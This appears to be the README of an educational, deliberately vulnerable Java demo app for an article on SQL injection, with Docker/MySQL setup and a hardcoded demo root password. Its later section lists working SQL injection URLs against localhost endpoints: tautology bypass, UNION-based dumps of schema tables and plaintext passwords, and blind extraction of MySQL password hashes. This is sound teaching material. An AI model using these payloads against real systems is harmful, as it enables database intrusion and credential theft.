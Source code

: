 # SQL Injection in Java: Practices to Avoid

Thanks
    https://sec.okta.com/articles/2020/12/sql-injection-java-practices-avoid

### Requirements
* Docker desktop
* Java 8


### Start Mysql in Docker
Since we need to show vulnerabilities with Stored procedure and 'Principle of least privileges' we are using a Mysql
instance running in Docker

Build Docker image 

    cd mysql-in-docker/sqlinjection

    docker build -t sqlinjection_demo:latest .

Run docker 

    docker run -p 3307:3306 --name local-mysql -e MYSQL_ROOT_PASSWORD=11asd097asd -d sqlinjection_demo:latest

### Run the application

    Use IDEA to run the application, as then configuration works with DB correctly.
    
![img.png](img.png)

    As an option - MAVEN configuration can be used
![img_1.png](img_1.png)


NOTE: When starting application from the console with **MavenW** - in is necessary to assign proper ENV variables.

    cd ../../

    ./mvnw spring-boot:run


    
### Connect to mySql
To connect to mySql use

    Open terminal and run " docker exec -it local-mysql mysql -h 127.0.0.1 -P 3307 -uroot -p11asd097asd"  
    
    Feel free to inspect mySql content:
    mysql> "show schemas;"
    mysql> "show databases;"
    
    select * from employees.employee;       Note: initialized with the apllication
    select * from management.employee_review;
    SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
    SELECT * FROM INFORMATION_SCHEMA.TABLES; 
    select authentication_string from mysql.user where User='empdb_user'; 
    
        
# Additional info


    
Normal call

    http://127.0.0.1:8080/filterUserUnSafe?name=Frodo
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret
    
Simple SQLi

    http://localhost:8080/filterUserJdbcUnSafe?name=Bilbo'or'1'='1  

Union based SQLi to get table_schema,table_name FROM information_Schema.tables
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(table_schema,'-----', table_name), table_name, 'STAFF'   from information_Schema.tables where '1'='1


Union based SQLi to get data from any table

    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo’ union all select 1, concat(review,’-----',rating),review,  ‘STAFF’  from management.employee_review where ‘1’=’1


Union based SQLi to get plain passwords
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(name,'-----',password), password, 'STAFF'   from employees.employee where '1'='1

Blind SQLi to get chars from mysql.user
    
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret' and (select CASE WHEN (substring(authentication_string,1,1) = '$' ) THEN true ELSE false END from  mysql.user where User = 'empdb_user') or ' 

?    
Blind SQL injection to get some data from INFORMATION_SCHEMA

    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret%27%20and%20(select%20CASE%20WHEN%20(substring(authentication_string,1,1)%20=%20%27$%27%20)%20THEN%20true%20ELSE%20false%20END%20from%20%20mysql.user%20where%20User%20=%20%27empdb_user%27)%20or%20%27    